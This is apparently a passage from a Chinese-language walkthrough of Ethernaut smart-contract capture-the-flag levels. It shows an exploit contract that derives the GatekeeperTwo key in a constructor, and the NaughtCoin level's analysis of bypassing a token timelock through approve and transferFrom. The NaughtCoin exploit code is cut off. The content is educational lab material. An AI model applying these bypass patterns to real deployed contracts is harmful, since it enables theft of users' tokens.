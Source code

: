 ## 4. 攻击方法
```
contract Exploit {

  constructor(address victim) {

    bytes8 result;

    result = bytes8(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ type(uint64).max);

    GatekeeperTwo two = GatekeeperTwo(victim);

    two.enter(result);

  }

}
```

## 5. 攻击调用图



# 第十五关：NaughtCoin

### 本关知识点：
```
1. 了解erc20代币合约
```

## 1. 题目要求
`您已经持有这些代币。问题是您只能在 10 年之后才能转移它们。您能尝试将它们转移到另一个地址，以便您可以自由使用它们吗？通过将您的代币余额变为 0 来完成此关卡。 `

## 2. 代码功能解读
```
1. 构造器初始化erc20，将INITIAL_SUPPLY数量的erc20代币mint给玩家
2. transfer方法时一个被lockTokens修饰器修饰的方法发送erc20给其他地址
3. lockTokens修饰器判断发送者是不是玩家，是的话需要等10年！其他玩家正常调用
```


## 3. 漏洞分析
```
绕过检查提前将代币发送给其他地址。
	查看引用的erc20合约，不止本人可以发送token。我们把钱授权给其他人，让其他人再转给我就行。
```

## 4. 攻击方法
``` javascript
contract Exploit {

  NaughtCoin coin;

  constructor(address addr) {

     coin = NaughtCoin(addr);

  }

  

```